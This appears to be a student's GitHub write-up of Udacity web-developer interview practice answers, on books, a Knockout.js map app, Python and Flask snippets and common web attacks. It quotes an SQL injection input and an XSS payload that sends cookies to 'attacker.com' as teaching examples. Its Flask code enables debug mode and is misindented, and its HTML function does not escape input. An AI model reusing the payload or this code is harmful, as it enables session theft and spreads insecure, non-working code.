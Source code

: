 # udacity-interview-practice-response
**1) What is the most influential book or blog post you’ve read regarding web development?**

The most influential book I have read is, “JavaScript the definitive guide” by David Flanagan
It is a great desk side reference and has good set of examples.

**2) Tell me about a web application you have built. Why did you choose to build it? What did you learn? What challenges did you face and how did you overcome them?**

I built a Neighborhood map web application. It is a single-page application featuring a map of my local neighborhood.
I chose to build it because quite a few businesses applications will want to integrate google maps and customize it to enhance the user experience.

I learned to use Knockout.js library with the MVVM pattern and also researched and integrated with third party apis. (Google Maps, Four Square, Yelp reviews).

There were several challenges, first was understanding what would be the best layout of web page and how to make the page responsive for different devices.
How to customize the map, include map markers, a search function for the locations, and a list view to support simple browsing of all locations making sure to use Knockout.js to accomplish the tasks.
I overcame these challenges by researching online, reading the documentation and using tools like Postman, Chrome developer tools. I also tried out the code in small iterations to understand how the library or api works.

***3)  Write a function in Python that takes a list of strings and returns a single string that is an HTML unordered list `(<UL>...</UL>)` of those strings. You should include a brief explanation of your code. Then, what would you have to consider if the original list was provided by user input?***

```python
'''
The function below takes in a list of strings
and returns them as an HTML unordered list. (<UL>...</UL>)
'''

def generateHtmlList(*args):
	html = "<ul>\n";
	for s in args:
		html += "<li>" + str(s) + "</li>\n"
	html += "</ul>"
	return html

print(generateHtmlList("test1", "test2", "test3"))
```
If the list is provided by user input. We can check that the input string to match only certain allowed characters. (example: only alphanumerics allowed)

***4) List 2-3 attacks that web applications are vulnerable to. How do these attacks work? How can we prevent those attacks?***

**Injection.**

Injection flaws can be SQL, NoSQL, OS and LDAP injection.
These occur when untrusted data is sent to an interpretor as part of a command or query.

Example: SQL injection
```
String query = "SELECT * FROM accounts WHERE custID='" + request.getParameter("id") + "'";

The attacker modifies the ‘id’ parameter value in
their browser to send: '106 or 1=1'
```
We can prevent them by keeping data separate from commands, use of safe API that avoids use of interpretor entirely or provides a parametrized interface to access the interpretor or use of ORMs.
Also we can use positive white list for server side validation.

**Broken Authentication**

It involves using of lists of known passwords to break into systems. Application session timeout when not set properly can also cause failed authentication.

Example:
Lists of known passwords are used to break into system.
If there is no automatic threat protection application can be used to determine if credentials are valid.

Some things to prevent are, using multifactor authentication.
Not shipping or deploying with default credentials. Making sure to implement a session timeout.

**Cross Site Scripting.**

Occurs whenever an application includes untrusted data into a web page without proper validation or escaping. This allows attackers to execute scripts in the victims browser, hijack there user session, redirect them to malicious sites and or deface websites.

Example:
The application uses untrusted data in the
construction of the following HTML snippet without validation or escaping:
```
(String)page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";

The attacker modifies the ‘CC’ parameter in the browser to:
'><script>document.location='http://www.attacker.com/cgi/bin/cookie.cgi?foo=' + document.cookie </script>'

This attack causes the victim’s session ID to be sent to the attacker’s website.
```
Prevention involves using frameworks that automatically escape XSS.
Escaping untrusted HTTP request data based on the context in the HTML output.



***5) Here is some starter code for a Flask Web Application. Expand on that and include a route that simulates rolling two dice and returns the result in JSON. You should include a brief explanation of your code.***

The code uses python libraries, jsonify and random. The route lets you enter the number of dice to roll. It then generates a random number between 1 and 6 for each of the dice. The sum of the numbers is then returned as json.
```python
from flask import Flask, jsonify
import random
import json

app = Flask(__name__)

@app.route('/')
def hello_world():
 return 'Hello World!'

@app.route('/rolldice/<int:number_of_dice>/JSON')
def rolldiceJSON(number_of_dice):
"""
Gets a random number between 1 and 6 for each of the number_of_dice passed in.
The total amount is printed out.
"""
	total = 0;
	for i in range(number_of_dice):
 		total += random.randint(1,6)
	return jsonify(total=total)


if __name__ == '__main__':
  app.debug = True
  app.run(host='0.0.0.0', port=5000)
```
***6) If you were to start your full-stack developer position today, what would be your goals a year from now?***

My goals would be to understand the business requirements of the position and to deliver projects aligned with them.

Enhance my technical skills with work in Node.js and in AWS Cloud.
Making sure code is well documented, good development documentation provided as needed.

Code defects are low or non-existent. Follow ups done with Code review and client feedback.

Making sure tools and process are in place for good development and automatic checks on the work done.

Deliver value to company through well implemented projects.
Ensure good communication with team and follow up with action plans.
